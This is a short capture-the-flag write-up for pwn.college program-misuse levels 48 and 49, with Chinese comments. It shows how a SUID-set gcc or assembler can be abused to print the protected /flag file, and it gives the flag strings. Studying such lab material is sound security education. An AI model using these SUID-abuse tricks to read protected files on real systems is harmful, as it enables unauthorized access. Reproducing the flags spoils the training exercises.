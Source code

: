 ## level48 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-48:~$ sh file.sh
Welcome to ./babysuid_level48!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/gcc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level48) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gcc!
```
有点儿意思，gcc都出来了
```
hacker@program-misuse-level-48:~$ gcc -x c -E /flag
# 1 "/flag"
# 1 "<built-in>"
# 1 "<command-line>"
# 31 "<command-line>"
# 1 "/usr/include/stdc-predef.h" 1 3 4
# 32 "<command-line>" 2
# 1 "/flag"
pwn.college{UgtHTJRU8raItcJF89PS-hM7Rh9.0FM5EDL2QjMyMzW}
hacker@program-misuse-level-48:~$
```
它这个必须要指定语言，不然不能运行

## level49 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-49:~$ sh file.sh
Welcome to ./babysuid_level49!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/as.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level49) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/as!
```
`as`:汇编语言的编译器
```
hacker@program-misuse-level-49:~$ as -g /flag
/flag: Assembler messages:
/flag:1: Error: no such instruction: `pwn.college{MqHCh7Oprd3rEP2f1i_RgAl8QZR.0VM5EDL2QjMyMzW}'
hacker@program-misuse-level-49:~$
```
通过调试输出
